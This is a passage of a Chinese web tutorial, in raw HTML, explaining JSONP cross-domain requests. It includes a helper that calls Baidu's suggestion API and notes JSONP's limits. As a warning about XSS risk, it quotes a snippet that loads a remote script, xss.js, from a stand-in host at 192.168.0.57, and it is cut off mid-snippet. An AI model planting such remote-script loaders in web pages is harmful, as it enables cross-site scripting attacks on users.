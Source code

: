         <span class="hljs-comment">// &#x5FAA;&#x73AF;&#x6784;&#x5EFA;&#x952E;&#x503C;&#x5BF9;&#x5F62;&#x5F0F;&#x7684;&#x53C2;&#x6570;</span>
        <span class="hljs-keyword">for</span> (<span class="hljs-keyword">let</span> key <span class="hljs-keyword">in</span> params) {
            arr.push(<span class="hljs-string">`<span class="hljs-subst">${key}</span>=<span class="hljs-subst">${params[key]}</span>`</span>);
        }

        <span class="hljs-comment">// &#x521B;&#x5EFA;&#x5168;&#x5C40;&#x51FD;&#x6570;</span>
        <span class="hljs-built_in">window</span>[cb] = <span class="hljs-function"><span class="hljs-keyword">function</span>(<span class="hljs-params">data</span>) </span>{
            resolve(data);
            <span class="hljs-comment">// &#x5728;&#x8DE8;&#x57DF;&#x62FF;&#x5230;&#x6570;&#x636E;&#x4EE5;&#x540E;&#x5C06; script &#x6807;&#x7B7E;&#x9500;&#x6BC1;</span>
            <span class="hljs-built_in">document</span>.body.removeChild(script);
        };

        <span class="hljs-comment">// &#x62FC;&#x63A5;&#x53D1;&#x9001;&#x8BF7;&#x6C42;&#x7684;&#x53C2;&#x6570;&#x5E76;&#x8D4B;&#x503C;&#x5230; src &#x5C5E;&#x6027;</span>
        script.src = <span class="hljs-string">`<span class="hljs-subst">${url}</span>?<span class="hljs-subst">${arr.join(<span class="hljs-string">&quot;&amp;&quot;</span>)}</span>`</span>;
        <span class="hljs-built_in">document</span>.body.appendChild(script);
    });
}

<span class="hljs-comment">// &#x8C03;&#x7528;&#x65B9;&#x6CD5;&#x8DE8;&#x57DF;&#x8BF7;&#x6C42;&#x767E;&#x5EA6;&#x641C;&#x7D22;&#x7684;&#x63A5;&#x53E3;</span>
json({
    <span class="hljs-attr">url</span>: <span class="hljs-string">&quot;https://sp0.baidu.com/5a1Fazu8AA54nxGko9WTAnF6hhy/su&quot;</span>,
    <span class="hljs-attr">params</span>: {
        <span class="hljs-attr">wd</span>: <span class="hljs-string">&quot;jsonp&quot;</span>
    },
    <span class="hljs-attr">cb</span>: <span class="hljs-string">&quot;show&quot;</span>
}).then(<span class="hljs-function"><span class="hljs-params">data</span> =&gt;</span> {
    <span class="hljs-comment">// &#x6253;&#x5370;&#x8BF7;&#x6C42;&#x56DE;&#x7684;&#x6570;&#x636E;</span>
    <span class="hljs-built_in">console</span>.log(data);
});</code></pre><p>&#x7F3A;&#x70B9;&#xFF1A;</p><ul><li>&#x53EA;&#x80FD;&#x53D1;&#x9001; get &#x8BF7;&#x6C42; &#x4E0D;&#x652F;&#x6301; post&#x3001;put&#x3001;delete&#xFF1B;</li><li>&#x4E0D;&#x5B89;&#x5168;&#xFF0C;&#x5BB9;&#x6613;&#x5F15;&#x53D1; xss &#x653B;&#x51FB;&#xFF0C;&#x522B;&#x4EBA;&#x5728;&#x8FD4;&#x56DE;&#x7684;&#x7ED3;&#x679C;&#x4E2D;&#x8FD4;&#x56DE;&#x4E86;&#x4E0B;&#x9762;&#x4EE3;&#x7801;&#x3002;</li></ul><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="`let script = document.createElement(&apos;script&apos;);
script.src = &quot;http://192.168.0.57:8080/xss.js&quot;;
document.body.appendChild(script);`;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="javascript hljs"><code class="javascript"><span class="hljs-string">`let script = document.createElement(&apos;script&apos;);
script.src = &quot;http://192.168.0.57:8080/xss.js&quot;;